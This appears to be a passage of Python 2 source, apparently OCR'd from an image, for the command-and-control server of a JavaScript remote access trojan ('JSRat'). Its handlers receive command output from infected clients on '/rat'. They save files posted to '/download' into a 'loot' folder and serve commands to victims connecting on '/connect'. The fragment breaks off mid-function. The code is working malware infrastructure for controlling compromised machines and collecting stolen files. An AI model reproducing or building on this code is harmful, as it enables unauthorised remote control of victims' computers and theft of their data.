 
  def do_POST(self):
    """
        Handle any POST requests coming into our server
    """
    if "/rat" == self.path:
      content_len = int(self.headers.getheader('content-length', 0))
      post_body = self.rfile.read(content_len)
      print cyan(post_body)
      if post_body == "[No Output]":
        print
      self.send_response(200)
      self.send_header('Content-type','text/plain')
      self.end_headers()

    elif "/download" == self.path:
      content_len = int(self.headers.getheader('content-length', 0))
      post_body = self.rfile.read(content_len)
      fname = raw_input(red("$")+white("(")+blue("Enter Filename to Save in ./loot/")+white(")")+red(">")+white(" "))
      try:
        loot_file = outdir.strip()+fname.strip()
        fh = open(loot_file, 'wb+')
        fh.write(post_body)
        fh.close()
        pad(); good("Successfully Saved To: %s\n" % loot_file.replace(home, "./"))
      except Exception, e:
        error("Problem saving content to:")
        pad(); bad("%s" % loot_file.replace(home, "./"))
        pad(); pad(); bad(str(e))
      self.send_response(200)
      self.send_header('Content-type','text/plain')
      self.end_headers()
    else:
      caution("%s - Snooper detected..." % str(self.client_address[0]))
      pad(); caution("=> %s" % self.path)
      self.send_error(404)

class SendCMDHandler(BaseHTTPRequestHandler):
  """
      Send command handler so we can auto send command to clinets...
  """
  js_load_path = '/connect' # Base URL path to initialize things (value is overridden at server start)
  upload_path = "" # static so we can set/get as needed, since this isnt powershell...
  time_to_stop = False

  def log_message(self, format, *args):
    """ Custom Log Handler to Spit out on to stderr """
    return

  def do_GET(self):
    """
        Handle any GET requests coming into our server
    """
    content_type = "text/plain"
    response_message = jsratCMD()
    if self.js_load_path == self.path:
      good("Incoming JSRat Client: %s" % str(self.client_address[0]))
      if 'user-agent' in self.headers.keys() and self.headers['user-agent'].strip() != "":
      	good("User-Agent: %s" % self.headers['User-Agent'])
